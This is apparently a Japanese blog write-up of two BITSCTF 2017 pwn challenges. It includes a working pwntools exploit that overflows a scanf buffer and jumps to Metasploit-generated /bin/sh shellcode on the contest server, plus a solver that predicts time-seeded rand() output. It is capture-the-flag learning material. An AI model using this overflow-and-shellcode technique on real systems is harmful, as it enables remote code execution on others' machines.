 ```yaml
---
title: BITSCTF writeup
date: 2017-02-05 21:15:00+0900
tags: CTF
---
```


[BITSCTF 2017](https://bitsctf.bits-quark.org/) に一人チーム [poepoe](https://bitsctf.bits-quark.org/team/135) でこっそり参加. 50 points で 166 位でした.

キャンプ以来少しずつ勉強してきた pwn の力試しにと登録したのだけど, 開始直後は経験のないジャンルしかなくてすぐ諦めてしまっていた.  
けれどもたまたま今日の夕方見たら2つ追加されてたので急いで解いた.

READMORE

## pwn

### Command\_Line <small>(20pt)</small>

x86-64 の ELF.

    $ file pwn1
    pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af1191f6192afa5c46c4146c085b0d85925a28ce, not stripped
    
    $ gdb pwn1
    Reading symbols from pwn1...(no debugging symbols found)...done.
    gdb-peda$ checksec 
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial

`main()` 関数を見るとこんな感じ.  
親切にもバッファのアドレスを教えてくれた後, `scanf("%s")` でそこに入力を読み取ってるだけのプログラムだった.

    $ r2 -A pwn1
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Analyze function calls (aac)
    [ ] [*] Use -AA or aaaa to perform additional experimental analysis.
    [x] Constructing a function name for fcn.* and sym.func.* functions (aan))
     -- Ilo ni li pona li pali e lipu. mi wile e ni: sina kama jo e musi
    [0x00400470]> e asm.nbytes = 0
    [0x00400470]> pdf @ main
                ;-- main:
    / (fcn) sym.main 63
    |   sym.main ();
    |           ; var int local_10h @ rbp-0x10
    |              ; DATA XREF from 0x0040048d (entry0)
    |           0x00400566      push rbp
    |           0x00400567      mov rbp, rsp
    |           0x0040056a      sub rsp, 0x10
    |           0x0040056e      lea rax, qword [rbp - local_10h]
    |           0x00400572      mov rsi, rax
    |           0x00400575      lea rdi, qword str.0x_lx_n                 ; 0x400634 ; str.0x_lx_n ; "0x%lx." @ 0x400634
    |           0x0040057c      mov eax, 0
    |           0x00400581      call sym.imp.printf                       ; int printf(const char *format)
    |           0x00400586      lea rax, qword [rbp - local_10h]
    |           0x0040058a      mov rsi, rax
    |           0x0040058d      lea rdi, qword 0x0040063b                  ; 0x40063b ; "%s"
    |           0x00400594      mov eax, 0
    |           0x00400599      call sym.imp.__isoc99_scanf               ; int scanf(const char *format)
    |           0x0040059e      mov eax, 0
    |           0x004005a3      leave
    \           0x004005a4      ret

`scanf()` で読み込む文字数等を指定していないので Stack buffer overflow が起こせる. Canary も NX bit もないので, リターンアドレスを書き換えて流し込んだシェルコードに飛ばして解いた. 接続がすぐ切れてしまうので, 予め `ls` してファイル名を確認してスクリプトから `cat flag` した.

```python
from pwn import *

# $ gdb pwn1
# Reading symbols from pwn1...(no debugging symbols found)...done.
# gdb-peda$ r
# 0x7fffffffde50
# AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
#
# Program received signal SIGSEGV, Segmentation fault.
# (...)
# gdb-peda$ x/gx $rsp
# 0x7fffffffde68:	0x413b414144414128
# gdb-peda$ patto 0x413b414144414128
# 4700422384665051432 found at offset: 24
padding = 24

# $ msfconsole
# msf > use payload/linux/x64/exec 
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x53\xf2\xa1\x2c\x3c\xa0\x78'
shellcode += '\x1a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\x39\xc9\xf9\xb5\x74\x1b\x57\x78\x3a\x9c\x8e\x5f\x54'
shellcode += '\xa0\x2b\x52\xda\x15\xc9\x01\x5f\xa0\x78\x52\xda\x14'
shellcode += '\xf3\xc4\x34\xa0\x78\x1a\x7c\x90\xc8\x42\x13\xd3\x10'
shellcode += '\x1a\x05\xa5\xe9\xa5\xda\xaf\x7d\x1a'

# r = process('./pwn1')
r = remote('bitsctf.bits-quark.org', 1330)

addr_buffer = int(r.readline()[:-1], 16)
log.info('addr_buffer: 0x%x' % addr_buffer)

payload = ''
payload += 'A' * padding
payload += p64(addr_buffer + padding + 8)
payload += shellcode
r.sendline(payload)

# r.interactive()
r.sendline('cat flag')
log.success('Flag: %s' % r.recv())
```

    $ python2 exploit.py
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] Flag: BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
    [*] Closed connection to bitsctf.bits-quark.org port 1330

### Random Game <small>(30pt)</small>

同じく x86-64 の ELF.

    $ file third
    third: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6c26456447632034ed1ad87d3161adcf72daa6c3, not stripped

`main()` 関数の処理はだいたいこんな感じだった.

1. `srand(time(0))`
2. `rand() & 0xf`
3. `scanf("%d")` して 2 の値と比較
  - 違ってたら `exit(0)`
4. 2-3 を30回繰り返す
5. `./flag` を `open()` -> `read()` -> `printf()`

少し悩んだけど, 乱数の seed に `time(0)` を使ってるので, サーバ側の時間がわかれば乱数を推測できそうなのに気づく.

問題は先程のと同じサーバで動いていると予測. まずは先程のスクリプトを使って `date +%s` を実行し, 手元の環境の時間と大きなズレがないことを確認.  
(注: この結果は後から実行したもの)

    $ date +%s ; python2 exploit.py
    1486292363
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] date +%s: 1486292363
    [*] Closed connection to bitsctf.bits-quark.org port 1330

あとは問題と同じ方法で30個の乱数を作る C のコードと問題を解くスクリプトを書いて終わり.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
  srand(time(0));

  for (int i = 0; i < 30; ++i) {
    printf("%d ", rand() & 0xf);
  }
}
```

```ruby
require 'socket'

s = TCPSocket.new 'bitsctf.bits-quark.org', 1337

randnums = `./rand30`.split

30.times do |n|
  print s.gets 'round : '
  s.puts randnums[n]
  puts randnums[n]
end

puts s.gets
```

    $ clang rand30.c -o rand30
    
    $ ruby solve.rb
    your number for 1 round : 8
    your number for 2 round : 4
    your number for 3 round : 9
    your number for 4 round : 10
    your number for 5 round : 9
    your number for 6 round : 4
    your number for 7 round : 6
    your number for 8 round : 6
    your number for 9 round : 3
    your number for 10 round : 5
    your number for 11 round : 15
    your number for 12 round : 13
    your number for 13 round : 12
    your number for 14 round : 3
    your number for 15 round : 15
    your number for 16 round : 2
    your number for 17 round : 7
    your number for 18 round : 5
    your number for 19 round : 6
    your number for 20 round : 8
    your number for 21 round : 14
    your number for 22 round : 2
    your number for 23 round : 12
    your number for 24 round : 12
    your number for 25 round : 14
    your number for 26 round : 8
    your number for 27 round : 13
    your number for 28 round : 4
    your number for 29 round : 3
    your number for 30 round : 13
    congrats you are rewarded with the flag BITSCTF{54m3_533d_54m3_53qu3nc

なぜか Flag が最後まで送られてこない... 最後のワードを補完して `BITSCTF{54m3_533d_54m3_53qu3nc3}` で通った.
